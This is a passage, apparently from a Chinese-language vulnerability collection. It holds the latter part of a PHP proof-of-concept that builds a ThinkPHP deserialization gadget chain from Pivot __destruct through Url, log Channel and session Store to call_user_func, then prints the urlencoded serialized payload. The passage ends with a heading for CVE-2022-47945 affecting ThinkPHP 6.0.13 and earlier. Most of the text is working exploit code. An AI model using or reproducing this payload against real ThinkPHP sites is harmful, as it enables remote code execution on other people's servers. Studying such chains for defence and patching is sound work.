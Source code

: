 ```plain
            $this->route = $route;
            $this->app = new App();
        }
    }
}

namespace think\log {
    class Channel
    {
        protected $lazy = false;
        protected $logger;
        protected $log = [];

        public function __construct($logger)
        {
            $this->logger = $logger;
        }
    }
}

namespace think\session {
    class Store
    {
        protected $data;
        protected $serialize = ["call_user_func"];
        protected $id = "";

        public function __construct($data)
        {
            $this->data = [$data, "param"];
        }
    }
}

namespace {
    $request = new think\Request();         //  param
    $store = new think\session\Store($request);     // save
    $channel = new think\log\Channel($store);     // __call
    $url = new think\route\Url($channel);   // __toString
    $model = new think\model\Pivot($url);   // __destruct
    echo urlencode(serialize($model));
}
```

## CVE-2022-47945

### 影响范围：

thinkphp<=6.0.13

